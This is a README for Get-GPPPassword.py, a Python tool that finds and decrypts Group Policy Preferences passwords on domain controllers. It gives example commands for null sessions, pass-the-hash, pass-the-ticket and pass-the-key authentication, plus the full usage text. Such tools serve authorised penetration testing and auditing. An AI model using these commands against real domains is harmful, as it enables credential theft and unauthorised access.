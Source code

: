 # Get-GPPPassword

Python script for extracting and decrypting Group Policy Preferences passwords.

## Examples
NULL session
````shell
python3 Get-GPPPassword.py -no-pass domain_controller
````
Username, password
````shell
python3 Get-GPPPassword.py domain.local/someuser:somepassword@domain_controller
````
Pass-the-hash
````shell
python3 Get-GPPPassword.py -hashes [LMhash]:NThash domain.local/someuser@domain_controller
````
Pass-the-ticket (partial ptt)
````shell
export KRB5CCNAME=someuser.ccache
python3 Get-GPPPassword.py -k domain_controller
````
Pass-the-key
````shell
python3 Get-GPPPassword.py -aesKey aesKey domain.local/someuser@domain_controller
````
Overpass-the-hash (check that it actually does opth)
````shell
python3 Get-GPPPassword.py -k -hashes [LMhash]:NThash domain.local/someuser@domain_controller
````

## Usage

```
usage: Get-GPPPassword.py [-h] [-share SHARE] [-base-dir BASE_DIR] [-ts]
                          [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                          [-aesKey hex key] [-dc-ip ip address]
                          [-target-ip ip address] [-port [destination port]]
                          target

Group Policy Preferences passwords finder and decryptor

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>

optional arguments:
  -h, --help            show this help message and exit
  -share SHARE          SMB Share
  -base-dir BASE_DIR    Directory to search in (Default: /)
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on target parameters.
                        If valid credentials cannot be found, it will use the
                        ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it
                        will use the domain part (FQDN) specified in the
                        target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will
                        use whatever was specified as target. This is useful
                        when target is the NetBIOS name and you cannot resolve
                        it
  -port [destination port]
                        Destination port to connect to SMB Server
```

# Credits

Thanks to
- mxrch for the code allowing to read files in stream instead of downloading them
- the Impacket project for handling the connections, auth, socket parts
- Microsoft for releasing the AES encryption key for the cpasswords
- the best, @podalirius_ for coding almost everything that my 5-year-old brain couldn't.

# ToDo list
- add a setup file for installing the script
- GIF in the README ?
- licence in the header of the python script